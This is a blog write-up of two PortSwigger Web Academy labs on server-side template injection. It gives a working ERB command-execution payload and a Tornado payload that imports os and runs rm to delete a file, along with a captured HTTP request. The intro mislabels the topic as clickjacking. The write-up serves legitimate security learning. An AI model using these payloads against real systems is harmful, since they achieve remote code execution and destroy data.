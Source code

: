 ```yaml
---
title: (Portswigger/WebAcademy) - Server-Side Template Injection
 vulnerabilities
author:
  name: eng4ge
  link: https://github.com/an9k0r
date: 2023-01-15 09:00:00 +0200
categories: [Web Application, Clickjacking vulnerabilities]
tags: [Notes, Server-Side Template Injection, SSTI, Portswigger]
math: true
mermaid: true
image:
  src: 
  width: 694
  height: 515
  alt: image alternative text
---
```

# Intro
This post/writeup is all about the Clickjacking Vulnerabilities.

I'll be using primarily [Portswigger Web Academy](https://portswigger.net/web-security/server-side-template-injection) Labs, but i do intent do throw other labs and writeups here as well.

To learn more on the topic, please visit the article linked above at Portswigger's.
## TOC
- [Intro](#intro)
  - [TOC](#toc)
- [Basic server-side template injection](#basic-server-side-template-injection)
- [Basic server-side template injection (code context)](#basic-server-side-template-injection-code-context)

# Basic server-side template injection
> This lab is vulnerable to server-side template injection due to the unsafe construction of an ERB template.
> 
> To solve the lab, review the ERB documentation to find out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

When we start the lab and open a product, we would see following request which is obviously being reflected:

![picture 0](/assets/images/2500c49399826a11b6d4c700819461590b012046c89ac6f3c4b5bda78991cc5c.png)  

After checking the documentation for ERB templating (Ruby), this synthax should return `49`: ==> `<%= 7*7 %>`.

![picture 1](/assets/images/0643f790d7937176928eeabdfa06baa1b79f24fc6c03b6380f8f8939e127b6bd.png)  

As seen above, we do get `49` reflected. Now we need to delete a file `morale.txt`.

This synthax runs commands on the system:

```html
<%= system("ls -la /home") %>
```

# Basic server-side template injection (code context)
> This lab is vulnerable to server-side template injection due to the way it unsafely uses a Tornado template. To solve the lab, review the Tornado documentation to discover how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.
> 
> You can log in to your own account using the following credentials: wiener:peter

Let us log in:

![picture 2](/assets/images/28027ea4356a2d9a8da2c1e1eaf9e28c27215f08b5402bd05ce1017c9b76fd4f.png)  

```html
POST /my-account/change-blog-post-author-display HTTP/2
Host: 0ad700b7030c673080f4175f002000b0.web-security-academy.net
Cookie: session=BOnEYrnrAfCGAN589iTwxfjxv5oAkFxM
Content-Length: 73
Upgrade-Insecure-Requests: 1
Origin: https://0ad700b7030c673080f4175f002000b0.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: https://0ad700b7030c673080f4175f002000b0.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8

blog-post-author-display=<%=+7*7+=>&csrf=kLGizM6pptgkDClzV9yZQKn4Q2OVfEb8
```

When i've ran the request above, error occured when sending comming in a blog post, but when i changed the parameter to `blog-post-author-display=7*7`, the `49` is shown instead of the `Name`:

![picture 3](/assets/images/83edb80f3d7913010e642e94501c2f163b80afafc1f128120e633d5663761dd0.png)  

This one was more tricky to exploit as os lib is not imported and we have to do it first. This is the final payload:

```html
blog-post-author-display=user.name}}{%25+import+os+%25}{{os.system('rm%20/home/carlos/morale.txt')
```
